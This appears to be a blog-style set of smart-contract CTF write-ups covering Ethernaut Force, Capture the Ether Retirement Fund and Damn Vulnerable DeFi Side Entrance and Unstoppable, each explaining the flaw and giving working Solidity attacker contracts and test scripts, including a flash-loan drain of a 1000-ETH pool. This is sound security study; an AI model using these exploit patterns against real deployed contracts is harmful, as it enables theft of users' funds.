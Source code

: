 
## Day 10-12 flawed or mixed accounting

### Ethernaut #7 Force

There is an empty contract called Force, and the objective of this exercise is to make the contract have a non-zero balance.  We cannot send to the contract directly to the contract because it has no receive() or fallback methods.  We can however create a self-destructing contract to send the remaining ether.  

```Java
contract Attacker {
    function attack(address payable victimAdd) payable external {
        require(msg.value > 0, "need to send ETH for attack");
        selfdestruct(victimAdd);
    }
}
```

### Capture the Ether Retirement fund 

The given contract is meant to force someone to save for retirement.  What it does is lock up Ether for 10 years, and if any is withdrawn 10% will be sent to a beneficiary.  It is not explicitly stated what is the objective of this challenge.  I beleive it is to remove the ether without incuring a penalty.  

Let's look at the collectPenalty() method.  

```Java
    function collectPenalty() public {
        require(msg.sender == beneficiary);

        uint256 withdrawn = startBalance - address(this).balance;

        // an early withdrawal occurred
        require(withdrawn > 0);

        // penalty is what's left
        msg.sender.transfer(address(this).balance);
    }
```

This can only called by the beneficiary - fine, and it will revert if withdrawn is zero.  So calling this right after the contract is deployed will revert.  One thing to note is that this is written for Solidity 0.4.21, which has no overflow/underflow checks.  We can send some ether to the contract and the subtraction will cause an underflow which will make withdrawn nonzero.  

A contract to do a selfdestruct() attack is given below, it is similar to that in the previous challenge but it was written for Solidity 0.4.21.  

```Java
contract Attacker {
    function attack(address victimAdd) payable external {
        require(msg.value > 0);
        selfdestruct(victimAdd);
    }
}
```


### Damn Vulnerable Defi #4 Side Entrance

This contract is a pool that allows anyone to deposit ETH and withdraw it at any point in time.  It has 1000 ETH deposited, and is offering free flash loans using the deposited ETH.  The objective is after starting with 1 ETH in balance to take all the ETH from the pool.  The contract was written in Solidity 0.8.0.  Some relevant parts of the Pool are shown below: 

```Java
    function deposit() external payable {
        unchecked {
            balances[msg.sender] += msg.value;
        }
        emit Deposit(msg.sender, msg.value);
    }

    function flashLoan(uint256 amount) external {
        uint256 balanceBefore = address(this).balance;

        IFlashLoanEtherReceiver(msg.sender).execute{value: amount}();

        if (address(this).balance < balanceBefore)
            revert RepayFailed();
    }
```

One possible way we can attack this is to take out a flash loan and then deposit the loaned amount back to the contract.  The ```deposit()``` function will cretid the sender with the full loan value, and ```flashLoad()``` will also be satisified because the balance of the contract will be the same.  

A contract was written to exploit this vunerability.  The contract is given below.  

```Java

contract SideEntranceAttack is IFlashLoanEtherReceiver {

    SideEntranceLenderPool pool;

    constructor(address _poolAddress){
        pool = SideEntranceLenderPool(_poolAddress);
    }

    // function to remove funds from contract
    function withdraw() external {
        // send funds to msg.sender
        (bool sent,) = payable(msg.sender).call{value:address(this).balance}("");
        require(sent, "Failed to send Ether");
    }

    function attack() external {
        pool.flashLoan(1000 ether);
        pool.withdraw();
    }

    function execute() external payable {
        // call deposit() on the pool
        pool.deposit{value: msg.value}();
    }

    receive() external payable{
    }
}
```
The only other detail is that the contract needs a ```withdraw()``` method to send the stolen funds to the player.  

The Javascript to call this is given below: 

```Javascript

    it('Execution', async function () {
        /** CODE YOUR SOLUTION HERE */
        // get Attacking contract
        const AttackerFactory = await ethers.getContractFactory("SideEntranceAttack");
        const attackerContract = await AttackerFactory.connect(player).deploy(pool.address);

        // get a flash loan from the pool, this needs to be sent from an attacking contract.  
        await attackerContract.connect(player).attack();

        // widthdraw funds
        await attackerContract.connect(player).withdraw();
    });
```

### Damn Vulnerable Defi #1 Unstoppable

THis challenge is another flash loan vault. It offers free flash loans during a grace period.  The challenge is to make the vault stop offering flash loans.  The flash loan contract is quite large, however in the ```flashLoan()``` method there are a number of contiions which will cause the call to revert.  One of them is reverts with ```InvalidBalancve()```.  The code for it is given below: 

```Java
if (convertToShares(totalSupply) != balanceBefore) revert InvalidBalance(); // enforce ERC4626 requirement
```

Perhaps we can send some of our 10 initial tokens to the vault to cause this to fail every time.  The code below does that in the test. 

```Javascript
    it('Execution', async function () {
        /** CODE YOUR SOLUTION HERE */
        token.transfer(vault.address, INITIAL_PLAYER_TOKEN_BALANCE);
    });
```